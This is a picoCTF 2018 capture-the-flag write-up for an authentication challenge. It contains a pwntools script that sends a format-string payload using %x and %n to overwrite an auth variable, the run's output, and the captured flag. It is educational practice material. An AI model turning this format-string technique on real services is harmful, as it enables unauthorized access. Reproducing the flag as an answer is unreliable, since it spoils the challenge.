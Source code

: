 # LEVEL GOAL

Can you authenticate to this service and get the flag? Connect with nc 2018shell1.picoctf.com 52918.

# HINTS

What happens if you say something OTHER than yes or no?

# SOLUTION

Code developed:
```
from pwn import *

context(arch='i386', os='linux')
auth_addr = int('0x0804a04c', 16)

s = ssh('nikel', '2018shell1.picoctf.com', password='****')
py = s.run('nc 2018shell1.picoctf.com 52918')
py.recvuntil('\n')

exploit = p32(auth_addr) + "%x"*10 + "%n"
py.sendline(exploit)
print(py.recvall())
py.close()
```

Execution:
```
nikhilh@ubuntu:~/picoctf_18/binary_exploitation$ python auth.py 
[+] Connecting to 2018shell1.picoctf.com on port 22: Done
[*] nikel@2018shell1.picoctf.com:
    Distro    Ubuntu 16.04
    OS:       linux
    Arch:     amd64
    Version:  4.4.0
    ASLR:     Enabled
[+] Opening new channel: 'nc 2018shell1.picoctf.com 52918': Done
[+] Receiving all data: Done (156B)
[*] Closed SSH channel with 2018shell1.picoctf.com
Received Unknown Input:

L\xa0\x080489a6f76d95a0804875af7710000f7710918ffac8fe0ffac90d40ffac9074429
Access Granted.
picoCTF{y0u_4r3_n0w_aUtH3nt1c4t3d_d29a706d}
```

# FLAG

picoCTF{y0u_4r3_n0w_aUtH3nt1c4t3d_d29a706d}
